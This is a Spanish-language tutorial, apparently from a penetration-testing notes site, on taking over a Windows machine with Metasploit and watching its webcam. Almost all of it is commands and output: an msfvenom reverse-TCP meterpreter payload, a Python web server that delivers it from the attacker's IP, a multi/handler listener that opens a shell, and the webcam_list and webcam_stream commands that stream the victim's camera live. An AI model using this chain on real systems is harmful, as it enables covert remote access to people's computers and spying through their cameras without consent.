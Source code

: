 # Visualizar Webcam por metasploit en windows (Vulnerabilidad)

## Vulnerar windows

Crearemos un archivo malicioso que la persona se descargara en internet, pero nosotros simularemos eso para tener una shell en metasploit de la maquina victima de windows.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Una vez creada la aplicacion maliciosa, abriremos un servidor de `python3` que es donde se simulara nuestra pagina web a la que el usuario tiene que entrar para descragarse el `.exe` malicioso.

```shell
python3 -m http.server 80
```

> Maquina windows

En la maquina windows, nos metemos a internet y ponemos la siguiente direccion URL.

```
URL = http://<IP_ATACKER>/shell.exe
```

Y esto nos descargara la aplicacion maliciosa, una vez hecho eso, configuraremos la escucha en metasploit antes de darle a ejecutar.

> Maquina atacante

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos el exploit de la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Ejecutamos el exploit y en ese momento estaria a la escucha, por lo que ejecutaremos el `.exe` para que nos de una shell.

```shell
run
```

Una vez ejecutado el `.exe` en la maquina windows, si volvemos a metasploit donde tenemos la escucha, obtendremos una shell con la maquina windows.

Info:

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.141
[*] Meterpreter session 1 opened (192.168.5.199:7777 -> 192.168.5.141:49174) at 2024-08-02 13:34:09 +0200

meterpreter >
```

## Vulnerar webcam

Vemos la lista de camaras que tiene activas.

```shell
webcam_list
```

Info:

```
1: Microsoft LifeCam Cinema(TM)
```

Vemos que tiene una, por lo que la ejecutaremos de la siguiente manera.

```shell
webcam_stream 1
```

Info:

```
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/dise0/Desktop/cPHdyMaU.html
[*] Streaming...
```

Y a parte de ponerte esto por terminal, se te habrira el navegador con la camara activa viendo lo que pasa a tiempo real como se muestar en la siguiente imagen.

<figure><img src="../.gitbook/assets/imagen_2024-08-02_162253328.png" alt=""><figcaption></figcaption></figure>

Por lo que ya habriamos vulnerado una webcam.
